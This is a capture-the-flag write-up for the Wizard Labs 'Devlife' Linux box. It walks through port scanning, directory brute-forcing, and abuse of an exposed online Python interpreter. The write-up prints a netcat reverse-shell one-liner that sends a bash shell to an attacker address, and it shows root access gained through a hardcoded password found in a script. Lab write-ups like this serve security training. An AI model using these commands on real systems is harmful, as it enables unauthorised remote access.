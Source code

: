 ```yaml
---
layout: post
title: Wizard Labs - Devlife
categories: wizard-labs
image: /wizardlabs/devlife/0.png
---
```

<hr>
### Quick Summary
#### Hey guys this is my write-up about Devlife from Wizard Labs which is their second box to retire. Just like [dummy](/wizard-labs/dummy/) it's another easy box (Difficulty : 2/10) , It's a linux box and its ip is `10.1.1.20` so let's jump right in !
![](/images/wizardlabs/devlife/0.png)
<hr>
### Nmap
#### We will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC 10.1.1.20`
![](/images/wizardlabs/devlife/1.png)
#### Only 2 ports are open , 22 running ssh and 80 running http. Let's check http.
<hr>
### HTTP Initial Enumeration
#### On the main page we get this "About me" message and nothing else :
![](/images/wizardlabs/devlife/2.png)
```
About Me

Hello , My name is Teddy Smith , I am a Python developer since 2007 !

Here I gonna share some Django tutorials and tutorials about System Administation in Python also I will write a Python online interpreter !!

Stay Tuned ...

TS

```
#### I ran `gobuster` with `/usr/share/wordlists/dirb/common.txt` and got these results :
```
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/.hta (Status: 403)
/dev (Status: 301)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
```
<br>
<hr>
### Getting user
#### So I checked `/dev` and found this `Online Python 2.7 Interpreter` :
![](/images/wizardlabs/devlife/3.png)
#### Great , now we can get a reverse shell in many ways , I just imported `os` then did `os.system(reverse shell payload)` :
`import os;os.system('nc -e /bin/bash 10.xx.xx.xx 1337')`
![](/images/wizardlabs/devlife/4.png)
<br>
<br>
![](/images/wizardlabs/devlife/5.png)
#### And we owned user !
<br>
<hr>
### Stored root Credentials , Privilege Escalation
#### In the `/home` directory of `tedd` there is a directory called `.env` , Let's check that.
![](/images/wizardlabs/devlife/6.png)
<br>
<br>
![](/images/wizardlabs/devlife/7.png)
#### We notice a python script called `su.py` , which runs `su root` and uses the password to authenticate :
![](/images/wizardlabs/devlife/8.png)
```
import pexpect
child = pexpect.spawn('su root')
child.expect ('Password:')
child.sendline('teddyxy2019')
child.expect('\$')
child.sendline('whoami')
```
#### Now we can `su` to root using the password `teddyxy2019` :
![](/images/wizardlabs/devlife/9.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
#### Previous Wizard Labs Write-up : [Wizard Labs - Dummy](/wizard-labs/dummy/)
<hr>
